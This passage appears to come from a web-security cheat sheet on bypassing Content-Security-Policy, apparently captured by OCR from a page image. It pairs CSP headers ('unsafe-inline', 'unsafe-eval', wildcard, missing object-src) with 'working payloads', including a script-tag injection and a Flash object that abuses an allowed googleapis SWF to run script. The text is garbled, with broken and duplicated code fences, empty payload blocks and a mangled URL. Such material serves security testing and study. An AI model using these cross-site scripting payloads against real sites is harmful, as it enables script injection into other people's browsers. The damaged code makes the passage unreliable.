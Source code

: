 ```
### 'unsafe-inline'

```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-inline';
```
```
Working payload: `"/><script>alert(1);</script>`

#### self + 'unsafe-inline' via Iframes

[[csp-bypass-self-+-unsafe-inline-with-iframes.md]]

### 'unsafe-eval'

> [!CAUTION]
> This is not working, for more info [[https://github.com/HackTricks-wiki/hacktricks/issues/653|**check this**]].

```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-eval';
```
```
Working payload:

```html

```
```
### strict-dynamic

If you can somehow make an **allowed JS code created a new script tag** in the DOM with your JS code, because an allowed script is creating it, the **new script tag will be allowed to be executed**.

### Wildcard (\*)

```yaml
Content-Security-Policy: script-src 'self' https://google.com https: data *;
```
```
Working payload:

```html
"/>'>
"/>'>
```
```
### Lack of object-src and default-src

> [!CAUTION] > **It looks like this is not longer working**

```yaml
Content-Security-Policy: script-src 'self' ;
```
```
Working payloads:

```html

">'><object type="application/x-shockwave-flash" data='https: //ajax.googleapis.com/ajax/libs/yui/2.8.0 r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e) {alert(1337)}//'>
<param name="AllowScriptAccess" value="always"></object>
```
```
### File Upload + 'self'

```yaml
Content-Security-Policy: script-src 'self';  object-src 'none' ;
```